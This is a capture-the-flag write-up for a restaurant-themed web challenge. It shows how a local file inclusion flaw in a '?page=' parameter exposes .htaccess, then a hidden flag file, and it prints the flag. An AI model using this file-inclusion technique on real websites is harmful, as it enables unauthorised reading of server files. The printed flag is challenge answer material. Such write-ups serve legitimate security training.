 **Catergory** - Web | **Points** - 100

## Description:  
We are creating a new web-site for our restaurant. Can you check if it is secure enough?

### Solution:  
Upon visiting the site, checking the source of the home page reveals:
```
<!-- TODO: Check apache access and error log for errors -->
```
So we know we might be facing an LFI to try and access 'apache access' or the 'error log'.

Now, clicking one the navigation links shows us the structure of the URL
```
http://bonappetit.stillhackinganyway.nl/?page=home
```
Maybe ``?page=home`` is vulnerable to LFI?

It sure is, visiting ``http://bonappetit.stillhackinganyway.nl/?page=.htaccess`` it reveals the following:
```
<FilesMatch "\.(htaccess|htpasswd|sqlite|db)$">
 Order Allow,Deny
 Deny from all
</FilesMatch>

<FilesMatch "\.phps$">
 Order Allow,Deny
 Allow from all
</FilesMatch>

<FilesMatch "suP3r_S3kr1t_Fl4G">
  Order Allow,Deny
  Deny from all
</FilesMatch>


# disable directory browsing
Options -Indexes
```
Hmm, no flag but we do see ``suP3r_S3kr1t_Fl4G``, let's try accessing that file.

Yep, that file reveals the flag :)
``flag{82d8173445ea865974fc0569c5c7cf7f}``
